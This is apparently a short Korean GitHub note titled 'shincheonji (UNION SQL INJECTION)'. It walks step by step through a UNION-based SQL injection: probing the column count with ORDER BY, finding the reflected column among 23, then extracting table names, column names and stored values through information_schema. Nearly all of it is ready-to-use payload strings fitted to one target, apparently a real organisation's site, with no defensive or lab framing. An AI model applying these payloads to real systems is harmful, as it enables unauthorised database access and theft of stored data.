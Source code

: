 # shincheonji (UNION SQL INJECTION)

order by: 어떤것으로 정렬 하겠다
* * *
1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
```
aa' order by 1 #
```
* * *
정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다. 그리고 찍힌 숫자의 자리에 원하는 데이터를 넣을수 있다. 11번이라면 11의 자리의 원하는 데이터를 넣을수 있다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #
```
* * *
테이블들을 출력한다. 찍힌 숫자가 11번이기 떄문데 11자리에 'table_name'을 넣은것이다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,table_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.tables where table_type='BASE TABLE' #
```
* * *
찾을 테이블의 이름을 넣어서 테이블의 컬럼들을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,column_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.columns where table_name='테이블_이름' #
```
* * *
컬럼 값을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,컬럼_이름,12,13,14,15,16,17,18,19,20,21,22,23 from 테이블_이름 #
```
